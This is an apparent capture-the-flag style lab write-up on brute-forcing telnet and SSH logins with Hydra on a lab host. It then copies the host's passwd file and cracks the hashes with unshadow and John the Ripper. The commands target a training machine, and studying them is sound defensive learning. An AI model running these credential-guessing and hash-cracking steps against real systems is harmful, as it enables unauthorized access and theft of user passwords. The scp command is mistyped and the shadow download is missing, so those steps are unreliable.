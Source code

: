 # Bruteforce and Password Cracking

# Description

The lab is divided in two main parts:

- Network authentication cracking
- Bruteforce and password cracking

In the first part of the lab you will have to use different network authentication cracking techniques and tools against services available on the target machine. 

Once valid credentials have been found, it is time to download the passwords stored on the remote system and use John the Ripper to crack them!

# Goal

The final goal of the lab is retrieve the passwords of at least ten users on the target machine!

# Tools

**The best tools for this lab are:**

- Network authentication cracking tools such as *Hydra*
- Cracking tools such as *John the Ripper*

# Solutions

### Steps - 1 Find alive hosts on the network

We first need to verify which the remote network is. We can do it by running ***ifconfig*** and check the IP address of our tap0 interface.

![Bruteforce%202018e/Untitled.png](Bruteforce%202018e/Untitled.png)

As we can see the target network is **192.168.99.0/24.** Let's run *nmap* in order to discover available hosts on the network:

![Bruteforce%202018e/Untitled%201.png](Bruteforce%202018e/Untitled%201.png)

The previous screenshot shows that the only host alive in the network is 192.168.99.22 (besides our host: 192.168.99.16).

### Step 2 - Port Scanning and Service Detection

Let us target the host found in the previous step and check what ports are open and services it has running:

```jsx
nmap -sV 192.168.99.22
```

![Bruteforce%202018e/Untitled%202.png](Bruteforce%202018e/Untitled%202.png)

From the nmap output, we can see that the host has two services enabled: **SSH and Telnet.**

### Step 3 - Bruteforce

It is time to get our hands dirty! Let us try to bruteforce both telnet and SSH in order to find any working pair of username and password. To do this we are going to use **Hydra**.

For the telnet service, let us use the following command and see what we get:

```bash
hydra
-L /usr/share/ncrack/minimal.usr
-P /usr/share/seclists/Passwords/rockyou-10.txt
telnet://192.168.99.22
```

**NOTE**:

<aside>
💡 Before you use minimal.usr, check for any unnecessary entries and remove them.

</aside>

Specifically, if you are using **minimal.usr** for the first time, it may contain the following entry at the beginning of the list:

```bash
# minimal list of very common usernames
```

**If this entry exists, remove it otherwise Hydra will not work as expected.**

As we can see in the following screenshot, we are able to find some valid username/password pairs. For our testing purposes, they are enough, so we can stop the bruteforce.

![Bruteforce%202018e/Untitled%203.png](Bruteforce%202018e/Untitled%203.png)

Let us confirm that at least one of these two credentials works with the following command:

```bash
telnet 192.168.99.22 -l sysadmin
```

![Bruteforce%202018e/Untitled%204.png](Bruteforce%202018e/Untitled%204.png)

Let us now focus our test on the **SSH** service. In the same way we did with telnet, let us use Hydra to bruteforce the SSH service with the following command:

```bash
hydra
-L /usr/share/ncrack/minimal.usr
-P /usr/share/seclists/Passwords/rockyou-15.txt
192.168.99.22 ssh
```

<aside>
💡 If you use older versions of Hydra, please add -t 8 to the previous command. This option sets the number of parallel tasks to 8.

</aside>

 

As we can see in the results, Hydra found valid credentials for the SSH service.

![Bruteforce%202018e/Untitled%205.png](Bruteforce%202018e/Untitled%205.png)

Once again let us verify that these credentials work on the remote system:

![Bruteforce%202018e/Untitled%206.png](Bruteforce%202018e/Untitled%206.png)

### Step 4 - Download and crack the local password on the system

Now that we have SSH access on the machine, we can try to crack the password of the local user accounts. To do this we first need to download two files from the victim: *passwd and shadow.*

In order to download these two files1 we can use the scp (secure copy) command as follow:

```bash
scrp root@192.168.99.22:/etc/passwd .
```

![Bruteforce%202018e/Untitled%207.png](Bruteforce%202018e/Untitled%207.png)

Now that we have these files into our local machine, we can use **john the ripper** and
**unshadow** to crack the user passwords. First let us use unshadow to get the password
hashes:

```bash
unshadow passwd shadow > to_crack
```

![Bruteforce%202018e/Untitled%208.png](Bruteforce%202018e/Untitled%208.png)

Now that we have the password hashes stored in the file named *to_crack,* we can use John
the Ripper to crack them:

```bash
john to_crack
```

![Bruteforce%202018e/Untitled%209.png](Bruteforce%202018e/Untitled%209.png)